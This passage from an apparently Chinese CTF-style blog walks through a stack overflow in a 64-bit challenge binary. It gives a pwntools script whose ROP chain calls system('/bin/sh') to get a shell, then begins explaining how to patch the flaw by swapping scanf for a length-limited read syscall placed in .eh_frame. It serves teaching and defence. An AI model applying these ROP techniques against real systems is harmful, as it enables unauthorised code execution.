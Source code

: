 文件链接：https://wutongblogs.oss-cn-beijing.aliyuncs.com/test/fix/ROP_x64

## 3.1 攻击

反汇编：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fix/fix17.png?x-oss-process=style/watermark)

`Scanf`未限制输入，导致溢出

攻击脚本：

```python
from pwn import *
p=process('./ROP_x64')
sys_addr=0x0400490 
binsh=0x04006D4
rdi_ret=0x04006b3
ret=0x0400479 
context.log_level="debug"
p.recvuntil("shell?\n")
payload ='a'*0x28+p64(rdi_ret)+p64(binsh)+p64(ret)+p64(sys_addr)
p.sendline(payload)
p.interactive()
```

成功获取shell：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fix/fix15.png?x-oss-process=style/watermark)

## 3.2 防御

### 3.2.1 原理

将无字节限制的`Scanf`函数修改为有字节限制的`read`函数：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fix/a2.png?x-oss-process=style/watermark)

`read`函数有三个参数，分别在`rdi`、`rsi`、`rdx`中，要想达到输入字符且限制长度的目的，三个参数应该分别为`0,v1_addr,0x20`。参数我们可以通过`mov`指令来实现，那么如何调用`read`函数呢？如果直接给出`read`函数地址，我们就可以直接使用了，但是没有的话要怎么办呢？

这就要用到我们的系统调用功能了，我们知道64位里，系统调用是`syscall`，系统调用号储存在`rax`寄存器中，而`read`函数的系统调用号为0，因此我们需要构造如下汇编指令：

```assembly
rax=0
rdi=0
rsi=vi_addr
rdx=0x20
syscall //read(0,v1,0x20)
```

但是这么多汇编指令的，添加到原有的文件里，就会修改它们的布局，造成程序无法运行，因此我们需要一个额外的数据段，来添加汇编指令。一般.eh_frame这个数据段是有可执行权限的，因此我们在这个数据段找一段空白的地方来修改汇编指令。

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fix/a6.png?x-oss-process=style/watermark)
